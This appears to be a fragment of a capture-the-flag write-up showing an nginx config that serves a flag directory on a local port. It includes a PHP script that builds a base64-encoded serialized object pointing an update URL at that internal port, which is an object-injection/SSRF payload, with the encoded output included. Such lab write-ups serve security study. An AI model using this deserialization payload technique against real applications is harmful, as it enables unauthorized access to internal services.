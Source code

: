 ![](https://i.loli.net/2021/10/06/GSRQl1qwTaXI3bN.png)

```nginx
	server {
        listen       4476;
        server_name  localhost;
        root         /var/flag;
        index index.html;

        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }
}
```

那么访问127.0.0.1:4476即可

```php
<?php
class config{
    public $update_url = 'http://127.0.0.1:4476';
}   

class dao{
    private $config;
    public function __construct(){
        $this->config=new config();
    }
}
$a=new dao();
echo base64_encode(serialize($a));

# TzozOiJkYW8iOjE6e3M6MTE6IgBkYW8AY29uZmlnIjtPOjY6ImNvbmZpZyI6MTp7czoxMDoidXBkYXRlX3VybCI7czoyMToiaHR0cDovLzEyNy4wLjAuMTo0NDc2Ijt9fQ==
```

![](https://i.loli.net/2021/10/06/42sLS5UhyjRMlmC.png)




